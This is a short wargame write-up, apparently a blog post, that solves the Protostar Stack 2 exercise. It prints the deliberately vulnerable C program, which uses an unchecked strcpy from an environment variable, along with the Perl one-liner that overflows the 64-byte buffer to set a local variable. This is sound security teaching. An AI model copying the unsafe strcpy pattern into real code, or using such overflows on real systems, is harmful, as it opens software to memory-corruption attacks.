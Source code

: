 ```yaml
---
title: "Exploit Exercises - Protostar Stack 2"
date: "2011-12-14T05:08:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


This challenge is pretty much the same as the previous challenge, except that the buffer comes from an environmental variable.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```

This problem can simply be solved by running these commands:

```
user@protostar:/opt/protostar/bin$ GREENIE=`perl -e 'print "A"x64 . "\x0a\x0d\x0a\x0d"'`
user@protostar:/opt/protostar/bin$ export GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

This will put the 64 "A"s and 0x0d0a0d0a (in little endian) into an environmental variable.  Then when the vulnerable C app reads it, overflows the buffer into the "modified" variable, just like the others.
